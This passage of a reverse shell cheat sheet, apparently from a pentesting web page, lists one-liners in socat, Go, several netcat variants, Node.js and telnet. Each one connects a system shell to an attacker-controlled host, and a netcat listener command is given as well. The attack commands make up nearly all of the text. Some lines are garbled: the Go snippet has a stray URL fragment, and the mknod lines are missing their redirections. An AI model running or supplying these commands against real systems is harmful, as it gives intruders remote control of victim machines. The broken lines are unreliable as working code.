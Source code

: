 Source: @filip_dragovic

{% highlight bash %}
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
{% endhighlight %}

## Golang Reverse Shell

{% highlight go %}
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
{% endhighlight %}


## Netcat Reverse Shell

<p>Useful netcat reverse shell examples:</p>

<p>Don't forget to start your listener, or you won't be catching any shells :) </p>

{% highlight bash %}
nc -lnvp 80
{% endhighlight %}

{% highlight bash %}
nc -e /bin/sh ATTACKING-IP 80
{% endhighlight %}

{% highlight bash %}
/bin/sh | nc ATTACKING-IP 80
{% endhighlight %}

{% highlight bash %}
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
{% endhighlight %}

A reverse shell submitted by [@0xatul](https://twitter.com/atul_hax) which works well for OpenBSD netcat rather than GNU nc: 

{% highlight bash %}
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
{% endhighlight %}

## Node.js Reverse Shell

{% highlight bash %}
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
{% endhighlight %}

Source: @jobertabma via @JaneScott 

## Telnet Reverse Shell

{% highlight bash %}
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
{% endhighlight %}
